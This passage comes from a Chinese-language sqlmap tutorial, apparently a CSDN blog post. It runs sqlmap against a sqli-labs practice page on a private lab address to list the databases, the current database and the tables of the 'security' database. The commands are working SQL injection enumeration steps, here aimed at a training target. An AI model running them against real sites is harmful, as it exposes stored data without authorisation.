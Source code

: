 ```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dbs
```




### ![](https://img-blog.csdnimg.cn/201812020003233.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 查看当前的数据库(--current-db)



```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-db #查看当前的数据库
```




[



SQLmap使用指令详解



txt ![](https://csdnimg.cn/release/blogv2/dist/components/img/star.png) 5星 超过95%的资源 13KB



![](https://csdnimg.cn/release/blogv2/dist/components/img/arrowDownWhite.png)



下载







](https://download.csdn.net/download/sunjingyuan1/4369232)



![](https://img-blog.csdnimg.cn/20181201215346638.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 爆出指定数据库中的所有的表



```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表
```




![](https://img-blog.csdnimg.cn/20181201215631921.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)
